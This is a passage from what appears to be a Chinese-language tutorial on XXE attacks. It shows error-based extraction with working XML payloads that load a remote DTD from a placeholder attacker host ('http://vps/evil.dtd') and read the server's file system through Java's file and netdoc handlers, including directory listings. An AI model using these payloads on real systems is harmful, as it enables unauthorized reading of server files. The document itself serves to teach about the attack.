 
![](img/5.png)

很好玩，不过还是用简单的payload单独记录下



### 结合报错获取信息

有时候如果xxe当中如果服务端没有正确处理好使用try catch，那么如果抛出异常web界面通常会显示这个错误，因此构造即可，这里我们用远程dtd配合演示

```xml
<?xml version='1.0'?>
<!DOCTYPE RemoteDTD SYSTEM "http://vps/evil.dtd" >
<root>&send;</root>
```

evil.dtd

```xml
<!ENTITY % evil SYSTEM "file:///" >
<!ENTITY % print "<!ENTITY send SYSTEM 'netdoc://%evil;'>">
%print;
```

很神奇对吧，同时java的伪协议file与netdoc(但netdoc不是每个版本都有，具体可以在`sun.net.www.protocol`包下看到)不仅仅可以读取文件同时可以读取目录，这一点是很重要的trick
